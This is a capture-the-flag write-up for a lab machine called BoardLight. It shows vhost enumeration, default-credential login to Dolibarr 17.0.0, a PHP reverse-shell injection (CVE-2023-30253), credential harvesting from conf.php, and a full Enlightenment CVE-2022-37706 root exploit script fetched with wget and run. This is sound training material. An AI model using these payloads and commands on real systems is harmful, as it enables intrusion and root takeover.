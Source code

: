 ```yaml
---
description: >-
  Linux | easy | Dolibarr (v17.0.0) CVE-2023-30253 | Mysql | Enlightenment
  CVE-2022-37706
---
```


# BoardLight



## Reconnaissance

```bash
nmap 10.129.11.23 -sV -sC 
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Lets Check the Http server.&#x20;

We can see the domain name in the front page :&#x20;

<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Lets update the Hosts File&#x20;

```bash
echo "10.129.11.23 board.htb" | sudo tee -a /etc/hosts
```

## Enumeration

no usefull directories was found on board.htb with gobuster  so lets try to find some vhost.&#x20;

```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -mc 200 -fw 6243
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

so lets add this vhost to our hosts file too .&#x20;

```bash
echo "10.129.11.23 crm.board.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

First things first lets try to enter the default credentials of the version 17.0.0 (admin/admin)

we are in  :&#x20;

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

its time to look for an active CVE on this version.&#x20;

We got one RCE [https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

So in order to exploit it we have to create a new page and inject a php code. lets try to inject a reverse shell. lets setup our netcat on port 4444 and the inject the following php code in a new page.&#x20;

```php
<?PHP shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'"); ?>
```

```bash
nc -lnvp 4444
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

and then when we use the preview button of our new page we trigger the reverse shell :

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

we are now www-data let see if we can find some usefull infos .

by looking on the official website we can see that dolibarr is using mysql so we will look for the conf file of mysql&#x20;

```bash
find /var/www /home -type f -name "conf.php"
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

we did found the password : serverfun2$2023!!

lets use it to our only user in /home directory larissa

we are in and can now grab the user flag !&#x20;

looking for suid who can be exploited for the privilege escalation we can see with&#x20;

```bash
find / -perm -4000 -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

we can find the following exploit  : [https://www.exploit-db.com/exploits/51180](https://www.exploit-db.com/exploits/51180)



```bash
#!/bin/bash
# Exploit CVE-2022-37706 pour Enlightenment v0.25.3
# Auteur: nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Recherche du fichier SUID vulnérable..."
echo "[*] Cela peut prendre quelques secondes..."

# Recherche du fichier SUID vulnérable
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]; then
    echo "[-] Impossible de trouver le fichier SUID vulnérable..."
    echo "[*] Enlightenment doit être installé sur votre système."
    exit 1
fi

echo "[+] Fichier SUID vulnérable trouvé!"
echo "[+] Tentative de création d'un shell root..."
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Bienvenue dans le terrier du lapin :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Appuyez sur une touche pour nettoyer les preuves..."
echo -e "Veuillez patienter... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Fait; Tout est nettoyé ;)"


```

lets upload it and try it :&#x20;

```bash
wget 10.10.14.20:8000/exploit.sh && chmod 777 exploit.sh && ./exploit.sh
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
